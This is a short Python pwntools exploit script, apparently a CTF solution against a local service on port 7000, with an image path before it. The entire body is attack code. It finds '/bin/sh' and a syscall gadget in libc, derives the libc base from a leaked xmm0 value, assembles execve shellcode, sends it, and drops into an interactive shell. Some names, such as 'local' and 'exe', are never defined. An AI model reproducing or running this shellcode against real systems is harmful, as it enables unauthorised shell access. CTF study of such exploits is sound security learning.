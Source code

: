 ```python
libc=ELF("./libc.so.6")
nc="nc localhost 7000"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############

binsh=next(libc.search("/bin/sh"))
system=libc.symbols["system"]
syscall=0x00000000000264a3
shellcode=f'''
        movq rbx,xmm0
        sub rbx,0x1d7643
        mov rdi , rbx
        add rdi , {binsh}

        mov rcx ,rbx
        add rcx, {syscall}
        xor rsi,rsi
        xor rdx,rdx
        mov rax,0x3b
        jmp rcx

'''

shellcode=asm(shellcode)
#debug()
p.sendline(shellcode)

p.interactive()
```
